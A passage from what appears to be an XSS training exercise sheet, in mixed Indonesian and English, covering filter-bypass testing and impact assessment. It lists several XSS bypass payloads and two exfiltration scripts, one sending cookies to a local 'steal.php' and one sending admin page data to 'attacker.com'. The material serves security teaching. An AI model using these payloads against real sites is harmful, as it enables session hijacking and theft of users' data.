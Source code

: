 
## 🧪 Exercise 7: Bypass Testing

### Objective
Test apakah fix yang diimplementasi bisa di-bypass.

### Bypass Techniques to Try
1. **Encoding Bypass**:
   ```html
   <script>alert(String.fromCharCode(88,83,83))</script>
   <script>alert('\x58\x53\x53')</script>
   ```

2. **Case Variation**:
   ```html
   <ScRiPt>alert('XSS')</ScRiPt>
   <IMG SRC=x ONERROR=alert('XSS')>
   ```

3. **Alternative Tags**:
   ```html
   <iframe src="javascript:alert('XSS')"></iframe>
   <object data="javascript:alert('XSS')"></object>
   ```

4. **Event Handler Variations**:
   ```html
   <div onmouseover=alert('XSS')>
   <input autofocus onfocus=alert('XSS')>
   ```

### Questions for Each Bypass Attempt
1. Apakah bypass berhasil?
2. Kenapa berhasil atau gagal?
3. Apa yang harus ditambah untuk prevent bypass ini?
4. Defense mechanism mana yang effective?

---

## 📊 Exercise 8: Impact Assessment

### Objective
Understand real-world impact dari XSS vulnerabilities.

### Scenarios to Simulate
1. **Cookie Theft**:
   ```html
   <script>
   new Image().src='http://localhost:3000/steal.php?cookie='+document.cookie;
   </script>
   ```

2. **Session Hijacking**:
   ```html
   <script>
   fetch('/admin/users', {credentials: 'include'})
   .then(response => response.text())
   .then(data => {
     new Image().src='http://attacker.com/exfil.php?data='+btoa(data);
   });
   </script>
   ```
